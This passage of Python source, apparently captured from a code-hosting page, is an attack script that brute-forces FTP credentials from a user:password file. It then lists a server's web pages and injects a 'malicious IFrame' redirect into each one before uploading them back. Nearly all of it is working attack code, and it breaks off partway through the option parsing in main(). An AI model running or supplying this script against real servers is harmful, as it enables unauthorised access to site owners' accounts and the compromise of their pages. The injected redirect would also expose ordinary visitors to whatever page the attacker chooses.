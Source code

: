 ```python
        return False

def brute_login(hostname, password_file):
    pf = open(password_file, "r")
    for line in pf.readlines():
        time.sleep(1)
        user_name = line.split(":")[0]
        password = line.split(":")[1].strip("\r\n")
        print("[+] Trying: {}/{}".format(user_name, password))

        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(user_name, password)
            print("[*] {} FTP Logon Succeeded: {}/{}".format(hostname, user_name, password))
            ftp.quit()
            return user_name, password
        except Exception as e:
            pass
    print("[-] Could not brute force FTP credentials.")
    return None, None

def return_default(ftp):
    dir_list = list()
    try:
        dir_list = ftp.nlst()
    except:
        print("[-] Could not list directory contents.")
        print("[-] Skipping To Next Target.")
        return dir_list

    ret_list = list()
    for file_name in dir_list:
        fn = file_name.lower()
        if ".php" in fn or ".htm" in fn or ".asp" in fn:
            print("[+] Found default page: {}".format(file_name))
        ret_list.append(file_name)

    return ret_list

def inject_page(ftp, page, redirect):
    f = open("{}.tmp".format(page), "w")
    ftp.retrlines("RETR {}".format(page), f.write)
    print("[+] Downloaded Page: {}".format(page))
    f.write(redirect)
    f.close()

    print("[+] Injected Malicious IFrame on: {}".format(page))
    ftp.storlines("STOR {}".format(page), open("{}.tmp".format(page)))
    print("[+] Uploaded Injected Page: {}".format(page))

def attack(username, password, target_host, redirect):
    ftp = ftplib.FTP(target_host)
    ftp.login(username, password)
    def_pages = return_default(ftp)
    for def_page in def_pages:
        inject_page(ftp, def_page, redirect)

def main():
    parser = optparse.OptionParser("usage%prog -H <target host[s]> -r <redirect page>[-f <user_pass file>]")

    parser.add_option("-H", dest="target_hosts", type=str, help="specify target host")
    parser.add_option("-f", dest="password_file", type=str, help="specify user/password file")
```